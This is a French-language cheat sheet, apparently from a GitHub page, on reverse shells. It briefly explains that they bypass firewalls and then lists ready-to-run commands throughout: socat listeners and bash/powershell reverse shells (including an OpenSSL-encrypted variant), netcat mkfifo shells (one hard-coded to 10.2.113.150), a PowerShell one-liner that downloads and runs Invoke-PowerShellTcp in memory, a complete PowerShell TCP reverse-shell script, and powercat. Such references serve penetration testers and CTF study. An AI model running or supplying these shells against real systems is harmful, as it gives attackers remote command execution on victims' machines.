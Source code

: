 # Reverse shell

Se produise lorsque la cible est obligée d’exécuter du code qui se reconnecte à votre ordinateur.

C'est un bon moyen de contourner les règles de pare-feu qui peuvent vous empêcher de vous connecter à des ports arbitraires sur la cible

**NB: L'inconvénient est que, lorsque vous recevez un shell d'une machine via Internet, vous devrez configurer votre propre réseau pour accepter le shell.**


## Socat

Demarrer un ecouteur de shell 

```sh
socat TCP-L:4444 -
```

```sh
socat TCP:<ATTACK-IP>:<PORT> EXEC:powershell.exe,pipes
```

```sh
socat TCP:<ATTACK-IP>:<PORT> EXEC:"bash -li"
```

### Shell inversé Linux TTY entièrement stable

Demarrer un ecouteur

```sh
socat TCP-L:4444 FILE:`tty`,raw,echo=0
```

```sh
socat TCP:<ATTACKER-IP>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

### Shell cryptées

Générer un certificat afin d'utiliser des shells cryptés

```sh
openssl req --newkey rsa:2028 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Fusionner les deux fichiers en un seul 

```sh
cat shell.key shell.crt > shell.pem
```

Demarrer un ecouteur avec le fichier

```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```


```sh
socat OPENSSL:<ATTACKER-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

### Shell communes

Demarrer un ecouteur

```sh
nc -nlvp <PORT>
```

```sh
mkfifo /tmp/f; nc <ATTACK-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.113.150 9001 >/tmp/f
```


## PowerShell 

Telecharger et executer un reverse-shell en memoire

```sh
powershell iex (New-Object Net.WebClient).DownloadString('http://ip:port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <ATTACK-IP> -Port 443
```

Executer ceci dans powershell

```c
$client = New-Object System.Net.Sockets.TCPClient('<ATTACK-IP>', '443');
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
	$sendback = (iex $data 2>&1 | Out-String);
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```

## PowerCat

C'est la version powershell de netcat

```sh
. .\powercat.ps1
powercat -c <ATTACK-IP> -p 9001 -e cmd -v
```